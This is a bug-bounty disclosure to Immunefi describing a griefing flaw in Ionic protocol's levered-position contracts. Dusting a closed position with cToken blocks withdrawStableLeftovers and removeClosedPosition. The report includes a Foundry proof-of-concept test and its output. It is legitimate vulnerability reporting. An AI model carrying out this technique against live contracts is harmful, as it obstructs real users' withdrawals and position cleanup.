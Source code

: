 
# Malicious users can obstruct the execution of withdrawStableLeftovers and removeClosedPosition at a low cost.

Submitted on Fri Jun 14 2024 02:38:48 GMT-0400 (Atlantic Standard Time) by @p0wd3r for [IOP | Ionic](https://immunefi.com/bounty/ionic-iop/)

Report ID: #32206

Report type: Smart Contract

Target: https://github.com/ionicprotocol/contracts/blob/development/contracts/ionic/levered/LeveredPosition.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
`withdrawStableLeftovers` and `removeClosedPosition` both need to determine `isPositionClosed`, and an attacker can change the return result of `isPositionClosed`, thereby affecting the execution of those two functions.

## Vulnerability Details
`withdrawStableLeftovers` and `removeClosedPosition` both require `isPositionClosed` to return true.

https://github.com/ionicprotocol/contracts/blob/development/contracts/ionic/levered/LeveredPosition.sol#L135-L142
```solidity
  function withdrawStableLeftovers(address withdrawTo) public returns (uint256) {
    if (msg.sender != positionOwner) revert NotPositionOwner();
    if (!isPositionClosed()) revert OnlyWhenClosed();

    uint256 stableLeftovers = stableAsset.balanceOf(address(this));
    stableAsset.safeTransfer(withdrawTo, stableLeftovers);
    return stableLeftovers;
  }
```

https://github.com/ionicprotocol/contracts/blob/development/contracts/ionic/levered/LeveredPositionFactoryFirstExtension.sol#L62-L69
```solidity
  function _removeClosedPosition(address closedPosition, address positionOwner) internal returns (bool removed) {
    EnumerableSet.AddressSet storage userPositions = positionsByAccount[positionOwner];
    if (!userPositions.contains(closedPosition)) revert NoSuchPosition();
    if (!LeveredPosition(closedPosition).isPositionClosed()) revert PositionNotClosed();

    removed = userPositions.remove(closedPosition);
    if (userPositions.length() == 0) accountsWithOpenPositions.remove(positionOwner);
  }
```

The basis for determining `isPositionClosed` is whether the col balance of the position is 0.
https://github.com/ionicprotocol/contracts/blob/development/contracts/ionic/levered/LeveredPosition.sol#L283-L285
```solidity
  function isPositionClosed() public view returns (bool) {
    return collateralMarket.balanceOfUnderlying(address(this)) == 0;
  }
```

Therefore, the attacker can pre-transfer a small amount of cToken to the position before the execution of `withdrawStableLeftovers` and `removeClosedPosition`, causing its `balanceOfUnderlying` to be non-zero, thereby hindering the execution of those two functions.

## Impact Details
Malicious users can obstruct the execution of withdrawStableLeftovers and removeClosedPosition at a low cost.

If users want to avoid the impact of the vulnerability, they need to execute `closePosition+withdrawStableLeftovers` or `closePosition+removeClosedPosition` in a single transaction, increasing the difficulty of operation and gas consumption for users.

## References
- https://github.com/ionicprotocol/contracts/blob/development/contracts/ionic/levered/LeveredPosition.sol#L135-L142
- https://github.com/ionicprotocol/contracts/blob/development/contracts/ionic/levered/LeveredPositionFactoryFirstExtension.sol#L62-L69
- https://github.com/ionicprotocol/contracts/blob/development/contracts/ionic/levered/LeveredPosition.sol#L283-L285
        
## Proof of concept
## Proof of Concept
```
git diff contracts/test/LeveredPositionTest.t.sol
```
```
diff --git a/contracts/test/LeveredPositionTest.t.sol b/contracts/test/LeveredPositionTest.t.sol
index a168276..a7d769b 100644
--- a/contracts/test/LeveredPositionTest.t.sol
+++ b/contracts/test/LeveredPositionTest.t.sol
@@ -418,6 +418,24 @@ abstract contract LeveredPositionTest is MarketsTest {

     assertEq(position.getEquityAmount(), 0, "!nonzero equity amount");
     assertEq(position.getCurrentLeverageRatio(), 0, "!nonzero leverage ratio");
+
+    // test withdrawStableLeftovers && removeClosedPosition
+
+    deal(address(stableAsset), address(position), 1e18);
+    assertEq(stableAsset.balanceOf(address(position)), 1e18, "!stable leftovers");
+
+    address attacker = makeAddr("attacker");
+    deal(address(collateralMarket), attacker, 10);
+    vm.startPrank(attacker);
+    collateralMarket.transfer(address(position), 10);
+    assertGt(collateralMarket.balanceOfUnderlying(address(position)), 0);
+    vm.stopPrank();
+
+    vm.expectRevert();
+    position.withdrawStableLeftovers(msg.sender);
+
+    vm.expectRevert();
+    factory.removeClosedPosition(address(position));
   }
 }
```
```
forge test --mc 'ModeWethUSDCLeveredPositionTest' --mt 'testLeverMaxDown' -vv

Ran 1 test for contracts/test/LeveredPositionTest.t.sol:ModeWethUSDCLeveredPositionTest
[PASS] testLeverMaxDown() (gas: 11310731)
Logs:
  max ratio: 1885965988637688719
  min ratio: 1017680935483941946
  withdraw amount: 99431346225800302

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 166.16s (32.62s CPU time)

Ran 1 test suite in 166.34s (166.16s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```